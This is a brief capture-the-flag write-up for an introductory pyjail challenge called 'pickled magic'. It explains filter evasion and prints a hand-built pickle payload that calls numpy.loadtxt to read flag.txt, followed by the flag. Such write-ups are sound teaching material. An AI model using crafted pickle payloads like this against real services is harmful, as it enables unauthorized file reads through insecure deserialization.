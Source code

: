 # pickled magic

Solved by: @vicevirus

- Category: pyjail,pickle,introductory

### Solution:

1. To know which NumPy module does not contain __ in their name (numpy.loadtxt)
2. Create payload accordingly to get the flag

Payload: 
```
payload = (
    b'cnumpy\n'            
    b'loadtxt\n'           
    b'(Vflag.txt\n'        
    b'Vstr\n'             
    b't'                    
    b'R'                   
    b'.'                   
)

payload_hex = payload.hex()
print(payload_hex)
```
3. Submit the hex value of the pickle to retrieve flag

Flag: `jail{idk_about_mag1c_but_this_is_definitely_pickled}`

